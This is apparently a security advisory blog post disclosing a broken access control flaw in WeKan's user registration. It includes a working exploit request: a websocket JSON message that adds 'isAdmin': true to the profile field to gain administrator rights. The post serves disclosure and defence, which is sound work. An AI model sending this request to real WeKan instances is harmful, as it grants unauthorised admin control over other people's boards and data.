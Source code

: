 ```yaml
---
title: "Broken Access Control in WeKan"
date: 2024-04-07
draft: false
authors: ["blocki"]
tags: ["advisory"]
description: "Broken Access Control vulnerability in WeKan"
featuredImage: "/alert.jpg"
featuredImagePreview: "/alert_crop.png"
---
```


Wekan is an open-source, collaborative project management application designed to help teams organize and manage their tasks and projects effectively. It is based on the Kanban methodology, which visualizes work on a board, with cards representing tasks that move through different stages of progress.

In the registration process of Wekan, a broken access control vulnerability was found, that allows arbitrary users to add their admin status and thus escalate their privileges directly to highest priviliges.

<!--more-->

WeKan uses websockets. During the registration, a request similar to the one below is created by the application:

```json
["{\"msg\":\"method\",\"id\":\"12\",\"method\":\"ATCreateUserServer\",\"params\":[{\"username\":\"testuser\",\"email\":\"testuser@local.host\",\"password\":{\"digest\":\"494a715f7e9b4071aca61bac42ca858a309524e5864f0920030862a4ae7589be\",\"algorithm\":\"sha-256\"},\"profile\":{}}]}"]
```

The `profile` key accepts a dictionary with a *hidden* attribute `isAdmin`. If the value is provided and set to `true`, the user receives high priviliges.

A modified request is shown below.
```json
["{\"msg\":\"method\",\"id\":\"12\",\"method\":\"ATCreateUserServer\",\"params\":[{\"username\":\"testuser\",\"email\":\"testuser@local.host\",\"password\":{\"digest\":\"494a715f7e9b4071aca61bac42ca858a309524e5864f0920030862a4ae7589be\",\"algorithm\":\"sha-256\"},\"profile\":{\"isAdmin\":true}}]}"]
```


The vulnerability was submitted to the *WeKan* team on 2023-07-30.
